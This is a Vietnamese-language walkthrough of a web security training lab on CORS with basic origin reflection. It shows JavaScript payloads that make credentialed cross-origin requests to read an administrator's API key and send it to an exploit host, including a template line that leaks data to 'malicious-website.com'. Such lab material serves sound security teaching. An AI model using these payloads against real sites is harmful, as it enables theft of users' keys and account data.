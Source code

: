   
## CORS Lab

### Lab: CORS vulnerability with basic origin reflection

Bài lab đã mô tả là trang web này có cấu hình CORS không an toàn ở chỗ nó tin cậy tất cả các nguồn gốc.

Để giải quyết bài lab, hãy tạo một số JavaScript sử dụng CORS để truy xuất khóa API của quản trị viên và tải mã lên máy chủ khai thác của bạn. 
Lab được giải quyết khi bạn gửi thành công khóa API của quản trị viên.

Bạn có thể đăng nhập vào tài khoản của mình bằng thông tin đăng nhập sau: wiener: peter

Truy cập bài lab và chúng ta thấy được 1 blog và có phần login.

Theo như lab thì chúng ta login vào account được cấp từ trước và thấy được APIKey, đây chính là mục tiêu của chúng ta. Bắt lại request mà sẽ phản hồi về APIKey.

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_refletion.png?raw=true)

![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_refletion_verfi.png?raw=true)

Chuyển request sang repeater và chèn thêm dòng *Origin: ![image](https://example.com* vào request và send thì chúng ta sẽ thấy phản hồi *Access-Control-Allow-Origin* như mô tả vì trang web này tin cậy mọi nguồn gốc, điều đó dẫn đến bất kỳ trang web nào cũng có thể lấy được thông tin từ nó. Để lấy được apikey chúng ta có payload theo form sau : 
```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','![image](https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
location='//malicious-website.com/log?key='+this.responseText;
};
```

Và từ đó chúng ta có được payload để sent vào exploit server như sau : 


  ```
  <script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','![image](https://ac621fa31ffe7a398004558a00e900a1.web-security-academy.net/accountDetails',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='/log?key='+this.responseText;
   };
</script>
```
![image](https://github.com/datnlq/Source/blob/main/CORS/image/CORS_refletion_exploit.png?raw=true)
